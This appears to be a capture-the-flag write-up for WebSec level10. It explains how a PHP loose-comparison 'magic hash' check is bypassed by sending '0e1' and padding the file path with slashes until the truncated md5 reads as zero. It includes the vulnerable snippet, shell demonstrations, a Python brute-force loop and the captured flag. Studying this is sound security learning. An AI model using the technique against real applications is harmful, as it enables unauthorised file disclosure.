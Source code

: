 ```yaml
---
layout: default
title: level10
---
```


Here we exploit the loose comparison, and the fact it takes only the first 8 digits from the hash
```php
    $hash = substr (md5 ($flag . $file . $flag), 0, 8);
    if ($request == $hash) {
        show_source ($file);
    }
``` 

Also, if we will give `./flag.php` and `.///////flag.php`, it'll be treated the same.


What i want to do is to give `0e1` as the hash, and trying to give some `.///////flag.php` (with more slashes) that'll give us hash which looks like: `0edddddddd` (d -> digit).

This will work because we use loose comparison, and it being treated as exponent number, which then treated as `0`. source from here [php operators comparison](https://www.php.net/manual/en/language.operators.comparison.php).
```bash
php > echo "0e1" == "0";
> 1
php > echo "0e1" == "0e8472638";
> 1
```

I've tried this simple script, to check on dummy flag whether it'll work, and it worked!
```python
import hashlib
import string
import itertools
import re

flag = "WEBSEC{{flagflagflag}}"  # we don't know the flag, so just guess one temporarily

def is_magic_hash(s):
    return re.match(r"0e\d+$", s)

counter = 1
while True:
        f = '.' + '/'*counter + 'flag.php'
        h = hashlib.md5((flag + f + flag).encode()).hexdigest()
        # Check if the hash is in the format of "0e" followed by digits
        print(f"Trying f={f}, md5={h}, counter={counter}")
        if is_magic_hash(h[0:8]):
            print(f"Try f={f}, md5={h}, counter={counter}")
            exit()
        counter += 1
```
Output:
> `////(...)//flag.php, md5=0e425116ebcb7ea06f57e56d74a0c33c, counter=10391`

Know, let's rewrite the script to attack:

Here we don't know the flag, and just send each time with more `/` the filename, until we manage to bypass the *if statement*.

```py
{% include_relative scripts/level10.py %}
```

**Flag:** ***`WEBSEC{Lose_typ1ng_system_are_super_great_aren't_them?}`*** 

